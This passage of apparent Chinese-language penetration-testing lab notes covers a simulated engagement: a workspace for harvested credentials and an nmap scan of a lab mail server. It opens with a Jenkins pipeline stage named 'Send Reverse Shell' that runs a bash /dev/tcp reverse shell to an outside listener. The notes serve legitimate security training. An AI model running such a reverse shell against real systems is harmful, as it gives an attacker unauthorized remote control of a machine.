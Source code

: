 ```
    stage('Send Reverse Shell') {
      steps {
        withAWS(region: 'us-east-1', credentials: 'aws_key') {
          script {
            if (isUnix()) {
              sh 'bash -c "bash -i >& /dev/tcp/192.168.45.168/8888 0>&1" &'
            }
          }
        }
      }
    }
  }
}
```
>[!Caution]
緩緩
LAB restart 後，administrator 就不進去了

# Assembling the Pieces
模擬一場真實的滲透測試
- Enumerating the Public Network
- Attacking a Public Machine
- Gaining Access to the Internal Network
- Enumerating the Internal Network
- Attacking an Internal Web Application
- Gaining Access to the Domain Controller

## Enumerating the Public Network
Enumerating 公開網路上的機器
![image](https://hackmd.io/_uploads/rycUywEn1l.png)
- MAILSRV1
- WEBSRV1

### MAILSRV1
#### 1. 建立工作環境
```
┌──(chw㉿CHW)-[~]
└─$ mkdir beyond
cd beyond
mkdir mailsrv1
mkdir websrv1
touch creds.txt
```
> `creds.txt`:找到的使用者帳號與密碼

### 2. Nmap 掃描 MAILSRV1
```
┌──(chw㉿CHW)-[~/beyond]
└─$ sudo nmap -sC -sV -oN mailsrv1/nmap 192.168.117.242 

[sudo] password for chw: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-17 06:06 EDT
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 91.67% done; ETC: 06:07 (0:00:00 remaining)
Nmap scan report for 192.168.117.242
Host is up (0.099s latency).
Not shown: 991 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: MAILSRV1, SIZE 20480000, AUTH LOGIN, HELP
```